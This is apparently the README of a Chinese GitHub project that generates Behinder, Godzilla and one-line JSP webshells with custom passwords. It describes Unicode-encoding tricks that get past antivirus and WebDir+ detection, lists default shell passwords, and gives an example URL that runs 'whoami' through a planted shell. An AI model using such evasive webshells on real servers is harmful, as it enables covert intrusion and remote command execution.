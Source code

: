 >在 GBByPass 的基础上增加了自定义冰蝎和一句话密码的功能
https://github.com/czz1233/GBByPass


```
*************************警 告*****************************
本工具旨在帮助企业快速定位漏洞修复漏洞,仅限授权安全测试使用!
严格遵守《中华人民共和国网络安全法》,禁止未授权非法攻击站点!
***********************************************************

1、Godzilla java_aes_raw 连接默认密码为: 1
2、Behinder默认密码为: baihua666
3、生成绕不过阿里云检测 http://XXX:8080/xxx.jsp?baihua666=whoami

[*] 输入密码或回车(使用默认值): P#xdd5d
[*] 一句话、冰蝎, 密码为: P#xdd5d

[+] 输入 '1' 生成Godzilla;
[+] 输入 '2' 生成Behinder;
[+] 输入 '3' 生成绕不过阿里云检测一句话：
2
[*] 生成中... 密码： P#xdd5d
[+] Succussfully
```


# GBByPass
冰蝎 哥斯拉 webshell bypass 原理通过Unicode编码绕过关键字
# 更新哥斯拉
## 哥斯拉效果图
![](images/godz.png)
## 360 
![](images/360.png)
## 火绒
![](images/fir.png)
## virustotal
![](images/img.png)
## webdir+
![](images/webdir+.png)



## Stargazers over time

[![Stargazers over time](https://starchart.cc/h0nayuzu/WebshellBypass.svg)](https://starchart.cc/h0nayuzu/WebshellBypass)